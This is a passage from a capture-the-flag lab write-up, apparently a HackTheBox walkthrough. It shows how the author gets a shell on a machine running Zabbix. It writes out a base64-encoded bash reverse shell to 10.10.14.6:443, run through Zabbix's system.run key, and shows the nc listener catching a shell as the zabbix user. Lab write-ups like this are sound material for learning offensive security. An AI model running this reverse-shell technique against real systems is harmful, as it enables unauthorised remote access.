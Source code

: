 I'll first try a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw), but it just returns
a value of 1 and doesn't make a connection. I suspect having the
redirects passing through Zabbix is causing an issue. To eliminate
special character issues, I'll base64 encode the command:



    oxdf@hacky$ echo "bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 " | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK



I've added a couple extra spaces in to get rid of any `+/=` characters.

I'll set the Key to:



    system.run[echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash]



When I click "Get value", there's a connection and a at my `nc`
listener:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.124 39694
    bash: cannot set terminal process group (101294): Inappropriate ioctl for device
    bash: no job control in this shell
    zabbix@shibboleth:/$



The website hangs waiting:

![](/img/image-20220331073528651.png)

After about 5 seconds, the website shows an error:

![](/img/image-20220331073551485.png)

And the shell dies:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.124 39812
    bash: cannot set terminal process group (101454): Inappropriate ioctl for device
    bash: no job control in this shell
    zabbix@shibboleth:/$ exit
    oxdf@hacky$



Interestingly, I didn't type `exit`. That came from Zabbix.

#### Stabilize
